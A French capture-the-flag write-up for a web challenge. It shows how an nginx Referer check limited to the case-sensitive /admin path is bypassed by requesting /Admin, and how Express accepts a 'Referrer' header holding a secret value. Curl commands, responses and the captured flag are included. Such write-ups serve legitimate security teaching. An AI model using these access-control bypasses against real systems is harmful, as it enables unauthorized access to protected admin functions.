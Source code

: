 # T'as la référrrrrence ? (MEDIUM)

## Auteur(s) :
`Senkei`

## Catégorie :
`Web`

## Description :
On dirait que le service admin de l'université n'est pas totalement sécurisé.

J'ai besoin de ton aide pour contourner le système!

[https://ta-la-ref.univhackon.fr](https://ta-la-ref.univhackon.fr/)

[talareffff.zip](./talareffff.zip)

**Flag** : `UHOCTF{Fake_flag}`

---

## Solution


On doit contourner le système à deux endroits.

```conf
#nignx.conf
location /admin {
    if ($http_referer !~* "^https://admin\.univ-lr\.arpa") {
        return 403;
    }
```

```js
//app.js
app.get("/admin", (req, res) => {
    if (req.header("referer") === "ADMIN_LR_SECRET") {
        return res.send(process.env.FLAG);
    }

    res.send("Wrong header!");
})
```
Pour résoudre ce challenge, il faut donc dans un modifier le header "deux fois".

Pour Nginx on peut voir que c'est seulement sur /admin en case sensible pour autant express lui ne fait pas de différence. On peut donc bypasser le if de nginx en modifiant `https://ta-la-ref.univhackon.fr/admin` :
  
  * `https://ta-la-ref.univhackon.fr/admin/` 
  *  `https://ta-la-ref.univhackon.fr/Admin`
  *  `https://ta-la-ref.univhackon.fr/ADMIN`
  *  ...


### Premier bypass


```bash	
$ curl -i  https://ta-la-ref.univhackon.fr/Admin
````

```bash
HTTP/2 200
date: Fri, 16 Jun 2023 14:22:21 GMT
content-type: text/html; charset=utf-8
x-powered-by: Express
cf-cache-status: DYNAMIC
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=EZKAV9TG12ztaIJ4r6JCL3n8rzVqKu%2B45Rjlfb2iMxvRdTWlhhGt2CZy4f17Cucvz4gYuttiVEG8oA1BOqUYzfgS7z0FHfyAwNghM%2FBZyEaAm%2F7btBKtiZrfRjs3%2FVYjOwIqQVRchqoZ%2FQ%3D%3D"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 7d83b45a5dae0498-CDG
alt-svc: h3=":443"; ma=86400

Wrong header!
```


Pour la partie Node, on regarde dans un premier temps les dépendances et on peut faire voir que express est utilisé en version 4.18

```js
  "dependencies": {
    "express": "^4.18.2"
}
  ```

On peut donc regarder la documentation de la version 4.18.2 de express et on peut voir que la fonction `req.header` est utilisée pour récupérer le header `referer` ou ```js req.get('Referrer')```.

On ajoute donc Referrer dans le header de la requête HTTP et on obtient le flag.


### Payload final 

```bash	
$ curl -i -H 'Referrer: ADMIN_LR_SECRET' https://ta-la-ref.univhackon.fr/Admin
````

```bash	
HTTP/2 200
date: Fri, 16 Jun 2023 14:27:05 GMT
content-type: text/html; charset=utf-8
x-powered-by: Express
cf-cache-status: DYNAMIC
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=ftd36Sy6SCuadObVXT5mUMGiIbwzEtkn0mF%2Fy5%2B%2FJzVy3jSKNczOVNu%2F34qvfAD5oGMaYiqJI38KPsiFmrUqbYiONCy0KP0fvMm6vVUYJksUk0obU63O%2BJmwGlCu4XruRV6mQpiN2oga%2Fg%3D%3D"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 7d83bb49cb2d3c8d-CDG
alt-svc: h3=":443"; ma=86400

UHOCTF{Super_ref_keep_working!!}
```


**Flag** : `UHOCTF{Super_ref_keep_working!!}`

